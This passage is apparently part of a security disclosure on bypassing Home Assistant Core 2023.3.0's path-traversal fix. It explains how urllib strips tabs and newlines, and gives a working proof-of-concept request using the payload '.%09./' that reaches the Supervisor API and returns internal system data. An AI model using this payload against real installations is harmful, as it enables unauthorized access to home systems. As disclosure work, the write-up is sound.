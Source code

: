 The key part here is in the first for loop, where bytes in `_UNSAFE_URL_BYTES_TO_REMOVE` are removed from the url. [`_UNSAFE_URL_BYTES_TO_REMOVE`](https://github.com/python/cpython/blob/53d9cd95cd91f1a291a3923acb95e0e86942291a/Lib/urllib/parse.py#L83) contains some whitespace characters:

```py
# Unsafe bytes to be removed per WHATWG spec
_UNSAFE_URL_BYTES_TO_REMOVE = ['\t', '\r', '\n']
```

This is the main idea behind the bypass, as this provides a way to potentially cause a difference in the value of `path` (and hence `request.path`) seen by the security filters, and the value of the path after it's been sent by the client.

## Proof of Concept

To bypass the security filters and exploit the path traversal, we want to send a path which doesn't contain `../` when checked by the security filters, but contains `../` when sent by the client to the Supervisor API. As above, tabs, carriage returns and line feed characters are removed from the URL when it reaches the client, but not in an incoming request to the Home Assistant Core aiohttp server. So path traversal may performed with the payload `.\t./`.

This works to bypass the mitigations introduced in Home Assistant Core 2023.3.0:

```
$ http http://192.168.104.182:8123/api/hassio/app/.%09./core/info
HTTP/1.1 200 OK
Content-Type: application/json
Date: Mon, 20 Mar 2023 23:18:43 GMT
Server: Python/3.10 aiohttp/3.8.4
Transfer-Encoding: chunked

{
    "data": {
        "arch": "amd64",
        "audio_input": null,
        "audio_output": null,
        "boot": true,
        "image": "ghcr.io/home-assistant/qemux86-64-homeassistant",
        "ip_address": "172.30.32.1",
        "machine": "qemux86-64",
        "port": 8123,
        "ssl": false,
        "update_available": true,
        "version": "2023.3.1",
        "version_latest": "2023.3.5",
        "watchdog": true
    },
    "result": "ok"
}
```

The impact is exactly the same as in CVE-2023-27482.

# Bypass 2
